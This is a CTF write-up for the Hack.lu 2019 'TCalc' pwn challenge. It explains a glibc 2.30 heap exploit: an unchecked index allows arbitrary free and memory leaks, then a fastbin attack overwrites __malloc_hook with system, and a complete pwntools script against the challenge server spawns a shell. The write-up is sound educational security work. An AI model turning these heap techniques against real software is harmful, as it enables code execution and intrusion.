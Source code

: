 ```yaml
---
title: TCalc - Hack.lu CTF 2019
date: 2019-10-26 13:00:00
author: slashb4sh
author_url: https://twitter.com/slashb4sh
categories:
  - Pwn
tags:
  - CTF
  - Writeup
  - Pwn
---
```

**tl;dr**
+ Linux heap exploitation with arbitary free vulnerability

<!--more-->
**Challenge points**: 381
**No. of solves**: 16
**Solved by**: [slashb4sh](https://twitter.com/slashb4sh)

This was a fun challenge. It is a menu driven program where you can store a set of numbers and also retreive the average of the numbers.
The challenges runs in an environment with glibc 2.30, It has tcache double free mitigation, as explained in my last [blog](https://blog.bi0s.in/2019/10/20/Pwn/remain/).

```sh
$ ./chall
------------------
What do?
1) get numbers
2) print_average
3) delete_numbers
>
```

get numbers
+ store maximum of 10 set of numbers on a heap chunk, no restriction to the count of numbers in one set
+ calloc(count + 1, 8uLL) is called to allocate memory for the numbers, The first 8 bytes is used to store the count
+ calloc() nulls out the memory region. Also, calloc doesn't allocate from tcache

print_average
+ gets index from user and prints average of the numbers at that index
+ index is not validated, leading to potential information leaks

delete_numbers
+ free() the pointer holding a set of numbers at a particular index and pointer is nulled out.
+ index is not validated, giving us aribiary free

The table, holding all the pointers to the set of numbers, is on the heap. The allocations made to store the numbers are right below the table.

Using the `out of bound indexing` we can free any chunk on the heap. As of now we do not have a heap leak to perform arbitary free. Let's first get the heap leak

#### How to get a heap leak?
To leak information using the `out of bounds` bug we invoke `print_average` but for this there needs be a proper structure to the heap chunk. The 1st 8 bytes should be the count of the numbers, followed by the numbers themselves, the count is used to add up the numbers in a for loop, if count is too large then the program will segfault accessing invalid memory. We need to craft a chunk such that the 1st 8 bytes contain the count, it should be a reasonably low value and next few blocks should contain the information we want to leak.
To achieve this layout, I first freed a chunk in the tcache range, when you free a chunk in tcache range the a key is set to tcache structure's address. 

```text
This is what the chunk looks like after free
	0x55555555a300: 0x0000000000000000  0x0000000000000061
	0x55555555a310: 0x0000000000000000  0x0000555555559010   # tcache structure
	0x55555555a320: 0x0000000000000002  0x0000000000000003
	0x55555555a330: 0x0000000000000004  0x0000000000000005
	0x55555555a340: 0x0000000000000006  0x0000000000000007
	0x55555555a350: 0x0000000000000008  0x0000000000000009
tcache structure
	0x555555559000: 0x0000000000000000  0x0000000000000291
	0x555555559010: 0x0000000000000000  0x0000000000000001
	0x555555559020: 0x0000000000000000  0x0000000000000000
	0x555555559030: 0x0000000000000000  0x0000000000000000
	0x555555559040: 0x0000000000000000  0x0000000000000000
	0x555555559050: 0x0000000000000000  0x0000000000000000
```

As you can see there is a pointer to the tcache structure on the heap, plus this is a valid pointer for free
Now I freed this pointer with the `out of bounds` indexing. Let's see what the tcache structure looks like now

```text
	0x555555559000: 0x0000000000000000  0x0000000000000291
	0x555555559010: 0x0000000000000000  0x0000555555559010
	0x555555559020: 0x0000000000000000  0x0000000000000000
	0x555555559030: 0x0000000000000000  0x0000000000000000
	0x555555559040: 0x0000000000000000  0x0000000000000000
```

Now I allocate and free a chunk of size 0x20, This sets the tcache count of 0x20 bin to 1.

```text
	0x555555559000: 0x0000000000000000  0x0000000000000291
	0x555555559010: 0x0000000000000001  0x0000555555559010
	0x555555559020: 0x0000000000000000  0x0000000000000000
	0x555555559030: 0x0000000000000000  0x0000000000000000
```
Now the tcache structure resembles the structure used to store the set of numbers. The first 8 bytes is the count, which is 1, and the next 8 bytes conatin a heap address. Invoke the `print_average` function on the tcache structure.
Now that we have the heap leak we can forge chunks on the heap and free arbitary chunks. 

#### Libc leak
Getting a libc leak is quite simple
+ free a 0x440 (or any size greater than tcache range) chunk so that it gets inserted to the unsorted bin, as you know, the fd and bk are libc addresses
+ allocate a large chunk of size less than 0x440 so the 0x440 chunk is split and the rest is put back in the unsorted bin
+ we split the chunk so that the size of the chunk is small and can we are going to use it as the faked count of numbers
+ write heap address of the structure such that the size of the heap chunk is the count of numbers and invoke `print_average` on it.
+ The average of all the data is print out. Extract the libc address by simply reversing the calculations.

#### Exploitation
We need arbitary write to get code execution, so we need calloc to allocate a chunk of our choice. Since calloc doesn't allocate chunks off the tcache bins, there is no point in corrupting the fd of tcache chunks. Chunks get allocated from the fastbin though, we can overwrite the next pointer of a free pointer to get arbitary write, our target is restricted to `__malloc_hook` as we can easily forge a size(0x7f), but this is not a an issue. (We cannot carry out a traditional fastbin double free corruption as we do not control the fd directly as it is used for count)

We will have to work with 0x70 chunks to carry out the fastbin attacks. We had already overwritten the tcache count for 0x70 chunk with value much greater than 7 when tcache structure was freed. Further freed chunks will be put in fastbin.

To do the fastbin attack:
+ allocate a chunk and create a fake chunk of size 0x71 ( choose any size that will be freed into the fastbin and can be allocated back with calloc() ).
+ This fake chunk will be freed and allocated back as an overlapping chunk to overwrite the next pointer of an free fastbin chunk lying right below
+ allocate the target chunk of 0x71 size
+ free the target chunk
+ free the fake chunk by using arbitary free
+ allocate a chunk of 0x70 size, the fake chunk will be returned, now overwrite the fd of the target chunk with address of the misalligned chunk above `__malloc_hook` such that the size field is 0x7f. 
+ allocate the target chunk
+ The next allocation will give you write to `__malloc_hook`

Overwrite `__malloc_hook` with system and call `malloc` with heap address pointing to `"/bin/sh"` ( `get_numbers` should be given addr/8 as `calloc` calls `malloc` with arguments as arg1*arg2 ).
You got shell :)

```python
from pwn import *
#s=process("./calc",env={'LD_PRELOAD': './libc.so.6'})
s=remote("tcalc.forfuture.fluxfingers.net", 1337)
libc=ELF("./libc.so.6")
def add(num, x):
    s.sendlineafter(">", str(1))
    s.sendlineafter(">", str(num))
    for i in x:
        s.sendline(str(i))
def show(idx):
    s.sendlineafter(">", str(2))
    s.sendlineafter(">", str(idx))
def free(idx):
    s.sendlineafter(">", str(3))
    s.sendlineafter(">", str(idx))
# free a chunk and free the tcache struct
add(10,[1,2,3,4,5,6,7,8,9,10])
free(0)
free(0x20f)
# set count of tcache 0x20 bin to 1 so as to have a crafted set of numbers with cnt=1
add(1,[1])
free(0)
# Heap leak
show(0x21b)
s.recvuntil("The average is: ")
heap = int(s.recvuntil(".")[:-1])-0x10
log.info("Heap leak = " + hex(heap))
# get libc leak
add(0x430/8,[-1])
add(1,[heap+0x1698])
free(0)
add(0x300/8,[-1])
show(0x2a7)
s.recvuntil("The average is: ")
base = int(s.recvuntil(".")[:-1])
base = ((base*0x131)-0x000000000001f821-(heap+0x1698)-0x0000000000000001-0x0000000000000020-0x0000000000000130)/2
base = (base & 0xfffffffffffff000)-0x1c0000
log.info("libc leak = " + hex(base))
system = base + libc.symbols['system']
malloc_hook = base + libc.symbols['__malloc_hook']
malloc_fake = base + 0x1c09ad
shell = base + 0x18b1ac
free(0)
free(1)
print hex(system)
what = system
part1 = (what&0x000000ffffffffff)<<24
part2 = (what&0x0000ff0000000000)>>40
print hex(part1)
print hex(part2)
add(12,[1,2,3,4,5,6,7,8,9,10,113,114])
add(12,[1,2,3,4,5,6,7,8,9,10,0x31,114])
add(2,{1, heap+0x1700})
free(1)
free(0x29d)
add(12,[0x71,malloc_fake,-1])
add(12,[0x0068732f6e69622f,0x0068732f6e69622f,-1]) 
"""
the write is not aligned so system is written as two parts 
part1 is the last 5 bytes and part2 is the 6th last byte which is 0x7f
part1 is left shifted by 24 bits, so the number we give starts with the 5th last byte
if the 5th last byte is greater than 0x7f the write get corrupted
"""
add(12,[1,part1,part2,0x3333333333333333,0x4444444444444444,0x5555555555555555,-1])
# pass heap address of "/bin/sh" to malloc as argument to system when __malloc_hook is triggered
add(((heap+0x1718)/8),[-1])
s.interactive()
```
